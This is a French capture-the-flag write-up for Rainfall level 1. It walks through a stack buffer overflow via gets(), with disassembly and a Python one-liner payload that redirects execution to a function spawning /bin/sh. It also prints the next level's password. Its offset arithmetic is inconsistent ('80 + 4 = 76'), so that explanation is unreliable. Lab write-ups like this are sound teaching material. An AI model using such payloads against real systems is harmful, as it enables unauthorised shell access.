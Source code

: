 # Rainfall - Flag 1

---

## ⚡ Objectif

Exploiter un dépassement de tampon (**buffer overflow**) sur la stack pour forcer l'exécution de la fonction `run()`.

---

## 📝 Analyse initiale

En désassemblant le binaire `level1`, on observe que `main` contient un appel vulnérable :

```asm
08048490 <main>:
  ...
  call   0x8048340 <gets@plt>
```

Et juste avant cet appel :

```asm
sub $0x50, %esp   ; alloue 80 octets pour le buffer
```

Donc :

* Le buffer local fait **80 octets** (`0x50`)
* `gets()` ne vérifie **aucune limite** : on peut écrire au-delà de ces 80 octets

Cela signifie qu'on peut **écraser le `saved EBP`, puis l'adresse de retour (`EIP`)**.

---

## 🎯 Fonction cible : `run()`

En analysant la section `.text` du binaire, on trouve une fonction utile :

```asm
08048444 <run>:
  call   fwrite@plt
  call   system@plt    ; avec argument "/bin/sh"
```

Si on arrive à rediriger l'exécution vers `0x08048444`, la fonction `run()` sera appelée, ce qui ouvrira un shell.

---

## 🔧 Construction du payload

On a testé via stdin un input avec 76 caractères "A", suivi de l'adresse de `run()` :

```bash
(python -c 'print("A"*76 + "\x44\x84\x04\x08")'; cat) | ./level1
```

**Pourquoi 76 ?**

* 80 (taille du buffer)
* 4 (bytes du `saved EBP`)
* \= **76 octets jusqu'à EIP**

---

## 🚀 Conséquence : Shell interactif

Le programme entre dans la fonction `run()`, qui contient :

* Un `fwrite()` (affichage texte)
* Un appel à `system("/bin/sh")`

On obtient donc un **shell avec les droits de level2** :

```bash
whoami
# level2

cat /home/user/level2/.pass
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

su level2
# Entrer le flag comme mot de passe
```

---

## 📅 Résumé

* ✅ Buffer overflow via `gets()` sans vérification de taille
* ✅ Offset trouvé : **76 octets jusqu'à EIP**
* ✅ Adresse de la fonction `run()` : `0x08048444`
* ✅ Payload : `"A"*76 + addr(run)`
* ✅ Shell obtenu → Flag récupéré avec `cat`

